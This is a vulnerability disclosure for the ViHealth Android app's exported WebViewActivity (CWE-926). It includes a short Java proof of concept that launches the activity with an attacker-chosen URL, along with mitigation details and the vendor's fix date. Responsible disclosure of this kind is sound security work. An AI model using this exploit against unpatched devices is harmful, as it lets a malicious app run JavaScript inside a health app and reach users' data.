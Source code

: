 

Vendor of Product: Viatom Health     

Vulnerability Type: CWE-926: Improper Export of Android Application Components


Affected Product: ViHealth for Android v.2.74.58* & earlier (com.viatom.vihealth)

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

The Android application contains an exported component that allows access by other applications without proper access control restrictions. 

This vulnerability could allow a 3rd party application installed on the device to launch the exported activity and access the data it contains.

A malicious app can load the URL of their choice & execute JavaScript within the context of the application to facilitate malicious actions.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

![image](https://github.com/actuator/cve/assets/78701239/6d9c2530-0122-4ea6-871a-72fd6c1ad08b)



An attacker could craft a 3rd party app using the following code to load the URL of their choice to facilitate malicious actions:



********************************************************************************************************************************

Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);

********************************************************************************************************************************


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.


![image](https://github.com/actuator/cve/assets/78701239/00fe68ca-6030-4eac-a84b-188c0036b5d8)


![image](https://github.com/actuator/cve/assets/78701239/4c2b98e8-2407-4325-bc96-8de0dae71443)


Discoverer: Edward Warren

